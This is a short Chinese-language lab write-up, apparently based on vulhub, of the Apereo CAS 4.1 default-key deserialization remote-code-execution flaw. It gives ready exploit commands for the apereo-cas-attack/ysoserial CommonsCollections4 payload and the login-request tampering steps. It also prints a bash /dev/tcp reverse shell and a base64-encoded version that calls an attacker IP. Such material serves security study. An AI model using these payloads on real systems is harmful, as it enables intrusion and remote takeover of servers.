

# Apereo-CAS4.1 反序列化命令执行漏洞

[vulhub/README.zh-cn.md at master · vulhub/vulhub (github.com)](https://github.com/vulhub/vulhub/blob/master/apereo-cas/4.1-rce/README.zh-cn.md)

### 漏洞描述

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

### 漏洞影响版本

>  ≤4.1.7

### 漏洞利用原理

由于使用的默认密钥加密,并未对加密的数据进行过滤、检查,所以可以构造payload利用相同密钥加密生成恶意攻击代码完成攻击.

### 漏洞利用过程

下载apereo-cas-attack(在本页面同级目录下的jar)来利用ysoserial反序列化后用commonsCollections4生成加密语句,之后通过更改登录数据包中的execution的值来达成攻击.

`java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"`


复制该段payload,我们随便输入一个用户名密码登录一下,利用burpsuite抓取登录时的数据包并将数据包中的excution的值换成payload放包即可.




放完包之后可以看到/tmp目录下生成了一个success文件,证明攻击成功


#### 反弹shell

```javascript
bash -i >& /dev/tcp/your-ip/port 0>&1
```

nc监听123端口


base64加密一下

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xMjgvMTIzIDA+JjE=}|{base64,-d}{bash,-i}

shell生成payload

`java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xMjgvMTIzIDA+JjE=}|{base64,-d}{bash,-i}" `


将该payload依照上一个步骤替换execution

